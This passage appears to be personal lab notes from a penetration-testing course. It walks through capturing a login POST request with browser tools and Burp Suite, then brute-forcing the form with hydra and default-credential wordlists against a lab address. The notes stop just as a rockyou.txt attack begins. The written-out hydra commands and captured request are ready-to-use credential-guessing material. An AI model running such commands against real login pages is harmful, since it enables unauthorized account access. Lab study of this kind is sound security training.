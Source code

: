 ### Using browser

a simple way to get the POST request is to use the browser's built in network tools to view the request after attempting to login: 

![](../Images/Pasted%20image%2020231227194250.png)

this will reveal the post parameters: 

`username=admin&password=admin`

can also copy as cURL to get the full request: 

`curl 'http://94.237.62.195:41370/login.php' -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://94.237.62.195:41370' -H 'DNT: 1' -H 'Authorization: Basic YWRtaW46YWRtaW4=' -H 'Connection: keep-alive' -H 'Referer: http://94.237.62.195:41370/login.php' -H 'Cookie: PHPSESSID=mldgm82ib2m2t2rk6iop77hhme' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' --data-raw 'username=admin&password=admin'`

### Using burp suite 

if the site uses a lot of HTTP requests, it might be easier to use Burp to go through all of them 

first we open Burp Suite and go to the proxy tab: 

![](../Images/Pasted%20image%2020231227200838.png)

enable the Burp proxy with FoxyProxy: 

![](../Images/Pasted%20image%2020231227200916.png)

then after trying another login we can see the captured login on Burp: 

![](../Images/Pasted%20image%2020231227201010.png)

now with the information we need, we can add it to the hydra command: 

`"/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`

## Login Form Attacks

first lets use the full hydra command with a list of default usernames and passwords: 

`hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.62.195 -s 41370 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"`

![](../Images/Pasted%20image%2020231227204223.png)

this did not find any working credentials but at least we ruled out a lot of default credentials 

since this specific login form is for admins, this could potentially rule out a lot of usernames  
we can then try many default user names such as admin

now we can try with the rockyou.txt list: 
